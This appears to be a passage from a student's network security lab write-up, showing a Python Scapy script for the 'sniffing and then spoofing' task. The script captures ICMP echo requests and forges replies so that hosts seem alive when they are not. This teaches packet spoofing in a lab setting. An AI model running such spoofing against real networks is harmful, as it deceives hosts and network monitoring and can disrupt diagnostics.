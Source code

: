 <div align=center><img width = '450' height ='350' src ="10.png"/></div>

## Task1.4 Sniffing and-then Spoofing

```python
#!/usr/bin/python
from scapy.all import *

def send_packet(pkt):

    if ICMP in pkt and pkt[ICMP].type == 8:
        print("request: src {} dst {}".format(pkt[1].src,pkt[1].dst))
        ip = IP(src=pkt[1].dst,dst=pkt[1].src)
        if pkt[1].dst=='8.8.8.8':
            ip.src='8.8.8.9'
        icmp = ICMP(type=0,id=pkt[2].id,seq=pkt[2].seq)

        data=pkt[3].load
        newpkt = ip/icmp/data
        print("response: src {} dst {}".format(pkt[1].dst,pkt[1].src))
        send(newpkt,verbose=0)
```